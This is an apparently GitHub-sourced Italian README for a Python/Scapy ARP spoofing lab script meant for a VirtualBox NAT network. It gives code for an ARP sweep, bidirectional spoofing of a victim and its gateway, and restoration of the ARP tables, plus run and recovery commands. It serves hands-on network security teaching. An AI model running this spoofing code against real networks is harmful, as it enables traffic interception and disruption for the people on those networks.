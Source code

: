 # 🧪 Script `arptotale.py`
Questo script Python esegue un laboratorio ARP completo in ambiente virtuale NAT. Include sweep iniziale, spoofing ARP bidirezionale e ripristino automatico delle tabelle ARP alla pressione di `Ctrl+C`.




🧠 Dati finali per lo spoofing
Nodo	     IP	         MAC	            Interfaccia
Attaccante	10.0.2.16	00:11:22:33:44:55	     eth0
Vittima	    10.0.2.15	08:00:27:55:44:07	    enp0s3
Gateway	    10.0.2.2	52:54:00:12:35:02	    enp0s3




🔧 Modifica arp_spoof_lab.py
Nel tuo script, imposta:




victim_ip = "10.0.2.15"
victim_mac = "08:00:27:55:44:07"
router_ip = "10.0.2.2"
router_mac = "52:54:00:12:35:02"
attacker_mac = "00:11:22:33:44:55"



#Assicurati che l’interfaccia usata sia eth0.



🔥 Esecuzione dell’attacco
Sulla VM attaccante:


cd ~/arp_lab/scripts/
sudo python3 arp_spoof_lab.py


🧪 Verifica sulla VM vittima

ping 8.8.8.8

#Se il ping fallisce durante lo spoofing, l’attacco è riuscito.

🛡️ Ripristino
Sulla VM attaccante:

sudo sysctl -w net.ipv4.ip_forward=0

Sulla VM vittima:

sudo ip neigh flush all


## ⚙️ Funzionalità principali

### 1. ARP Sweep

#Effettua una scansione della rete (`10.0.2.0/24`) per identificare host attivi e i relativi MAC address.

arp = ARP(pdst=network_range)
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
packet = ether / arp
result = srp(packet, timeout=2, iface=interface, verbose=False)[0]
------------------

### 2. ARP Spoofing
#Invia pacchetti ARP falsificati per impersonare il router verso la vittima e viceversa.

#La vittima crede che l'attaccante sia il router

#Il router NAT crede che l'attaccante sia la vittima
--------------------
pkt1 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac)
pkt2 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=attacker_mac)
send(pkt1)
send(pkt2)
---------

### 3. Ripristino ARP
#Alla pressione di Ctrl+C, lo script invia pacchetti corretti per ripristinare le tabelle ARP originali.

pkt1 = ARP(op=2, pdst=router_ip, hwdst=router_mac, psrc=victim_ip, hwsrc=victim_mac)
pkt2 = ARP(op=2, pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=router_mac)
send(pkt1, count=3)
send(pkt2, count=3)

---
📁 Log automatico
Tutte le operazioni vengono registrate nel file:


🛡️ Sicurezza
Funziona solo su rete NAT virtuale (VirtualBox)

Nessun impatto su router reale o rete fisica

Ripristino automatico garantito


▶️ Esecuzione

Da terminale sulla VM attaccante:

cd ~/arp_lab/scripts/
sudo python3 arptotale.py

✍️ Autore
Script scritto per ambienti CLI e laboratori di simulazione ARP. Ottimizzato per Debian minimal, VirtualBox NAT Network e logging automatico.


---
#   a r p t o t a l e 
 
 



